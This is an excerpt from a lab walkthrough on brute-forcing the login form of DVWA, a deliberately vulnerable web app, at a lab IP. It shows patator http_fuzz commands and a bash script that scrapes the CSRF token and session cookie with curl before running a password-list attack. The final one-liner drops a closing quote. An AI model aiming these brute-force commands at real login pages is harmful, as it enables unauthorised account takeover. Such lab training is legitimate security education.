<p>Now here is where we look back at our Burp Suite requests (see, there was a reason I made us use Burp Suite first). </p>

<p align="center"><img width="900px" src="https://github.com/user-attachments/assets/b6a2ecba-05b2-4ab5-80e2-307344714566"></p>

<p>So using what we know we can construct the following command:</p>

```bash
patator http_fuzz method=POST \
url="http://10.201.107.100/login.php" \
body="username=admin&password=password&Login=Login&user_token=21e0ad6d56fa24f77647ef7dabd21be8" \
header="Cookie: PHPSESSID=lq805gkohiamc501riahr6jltk; security=impossible" \
-x quit:fgrep!=login.php
```

<p>The <code>url</code>,<codebody</code>, and <code>header</code> fields can be copied directly from the Burp Suite window. The quit condition is checking that the returned response does not 
contain the text login.php.

- We need to add in our payload so we can incrementally swap out the password each time with one from our list.<br>
- We don't want to be re-sending the same user_token and Cookie value.<br><br>
Thankfully, with a bit of bash magic, we can create a script to dynamically generate those values for us - And we don't even have to do all the heavy lifting ourselves, thanks to g0tm1lk . We can take the script they've made and adapt it for our own brute force attempts. Our script should now look like this:</p>


```bash
IP=10.201.107.100

CSRF=$(curl -s -c dvwa.cookie "${IP}/login.php" | awk -F 'value=' '/user_token/ {print $2}' | cut -d "'" -f2)

SESSIONID=$(grep PHPSESSID dvwa.cookie | awk -F ' ' '{print $7}')

echo "The CSRF is: $CSRF"

echo "The PHPSESSID is: $SESSIONID"

patator http_fuzz method=POST --threads=64 timeout=10 \
url="http://${IP}/login.php" \
0=passwords.txt \
body="username=admin&password=FILE0&Login=Login&user_token=${CSRF}" \
header="Cookie: PHPSESSID=${SESSIONID}; security=impossible" \
-x quit:fgrep!=login.php
```

<p>N.B. If you find that when you run the above, you get errors about k,v pairs try changing the script so that the patator command is all on one line. Like this:</p>

```bash
patator http_fuzz method=POST --threads=64 timeout=10 url="http://${IP}/login.php" 0=passwords.txt body="username=admin&password=FILE0&Login=Login&user_token=${CSRF} header="Cookie: PHPSESSID=${SESSIONID}; security=impossible" -x quit:fgrep!=login.php
```
